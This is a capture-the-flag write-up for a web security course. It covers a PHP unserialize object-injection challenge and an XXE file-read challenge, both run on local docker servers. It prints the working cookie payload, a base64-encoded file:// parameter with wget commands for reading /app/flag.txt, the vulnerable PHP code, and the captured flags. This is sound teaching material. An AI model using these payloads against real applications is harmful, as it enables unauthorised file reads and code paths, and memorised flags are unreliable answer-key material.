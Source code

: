 # Extended Webapp Security (COMP6843)

## Dependent URLS
* Pastebin Of Source - https://pastebin.com/FEv7c4tA

## Challenges and Flags
| Exploit Type | Level | Flag |
| --- | --- | --- |
| Serialize | 0 | EXTBREAK3{A_c3RiAl_kIlLeR} |
| XXE | 0 | EXTBREAK2{XxE_sHoUlD_b_XeE} |

## PHP unserialize
### Level0
![](break2/img/extbreak2serial0.png)

#### Starting up the Challenge Server
```sh
cd break2/serialize
docker-compose up -d
```

The challenge runs at `http://localhost:8000` and can be shutdown with `docker-compose down`.

#### Writeup / Walkthrough
1. Edit the cookie named `level0`
2. Provision payload that instantiates a `print_flag` object.

By default, the cookie value is set to become the value.

```
s%3A6%3A%22friend%22%3B
```

This is the URL encoded form of the serialised string `s:6:"friend";`

By encoding a serialized object within the `level0` cookie, we exploit `$flagObj = unserialize($_COOKIE['level0']);`, in particular the unserialize function.
In order to get the `__tostring()` function of the `print_flag` object to be run when `echo '<span class="alert-success">' . $flagObj  . '</span>';` is hit, running the `__tostring()` method of `print_flag`.

The following payload will cause the flag to be released.
```
O%3A10%3A%22print_flag%22%3A0%3A%7B%7D
```

This url decodes to `O:10:"print_flag":0:{}`. This payload provides the serialised form of an object according to [PHP Serialize](https://secure.php.net/manual/en/function.serialize.php).

`O:strlen(object name):object name:object size:{s:strlen(property name):property name:property definition;(repeated per property)}`

## XML External Entity
### Level0
![](break2/img/extbreak2xxe.png)

#### Successful Payload
`http://0.0.0.0:8001/?param=ZmlsZTovLy9hcHAvZmxhZy50eHQ=`

#### Starting up the Challenge Server
```sh
cd break2/xmlee
docker-compose up -d
```

The challenge runs at `http://localhost:8001` and can be shutdown with `docker-compose down`.

#### Writeup / Walkthrough
1. Look at the source to find that there is extra functionality when supplying the `param` argument. It allows you to select which file to open and display where the default is a file located at `/app/boss/all`.

```php
$myXMLData =
'<?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE character [
    <!ELEMENT character ANY >
    <!ELEMENT health ANY >
    <!ELEMENT mana ANY >
    <!ELEMENT class ANY >';

if (isset($_GET['param'])) {
    $myXMLData = $myXMLData . '<!ENTITY param SYSTEM "' . base64_decode($_GET['param']) .  '" > ]>';
} else {
    $myXMLData = $myXMLData . '<!ENTITY param SYSTEM "file:///app/boss/all" > ]>';
}

$myXMLData = $myXMLData . '<character>&param;</character>';
```

2. If you base64 encode the right file, you will trigger the local entity inclusion.

```
echo -n file:///app/boss/health | base64
echo -n file:///app/boss/mana | base64
```

3. The flag can be found by creating the value for the `param` parameter and visiting the url via get.

```sh
echo -n file:///app/flag.txt | base64
ZmlsZTovLy9hcHAvZmxhZy50eHQ=
wget http://0.0.0.0:8001/?param=ZmlsZTovLy9hcHAvZmxhZy50eHQ%3D
```


